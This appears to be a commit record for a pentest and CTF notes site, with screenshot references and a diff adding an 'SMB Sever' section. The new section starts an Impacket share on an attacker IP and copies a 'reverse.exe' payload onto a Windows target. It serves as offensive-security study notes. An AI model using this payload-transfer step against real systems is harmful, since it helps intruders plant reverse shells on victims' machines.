

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/networks/servers.md, in a window 1280 px wide and 900 px high, scrolled down 547 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1126 px from its top, so only the background shows below that.

Commit message:
add smb server

````diff
--- a/docs/pentest/networks/servers.md
+++ b/docs/pentest/networks/servers.md
@@ -47,3 +47,19 @@ Command to the the HTTP request :
 ```bash
 $ curl localhost:4444/hello
 ```
+
+## SMB Sever
+
+Server (on 10.9.52.138) :
+
+```bash
+$ smbserver.py tmpshare .
+Impacket v0.9.23 - Copyright 2021 SecureAuth Corporatio
+[...]
+```
+
+Client :
+
+```bash
+C:\ > copy \\10.9.52.138\tmpshare\reverse.exe .
+```
````
Also changed, not shown: docs/pentest/privesc/windows.md (+9 -1 lines).
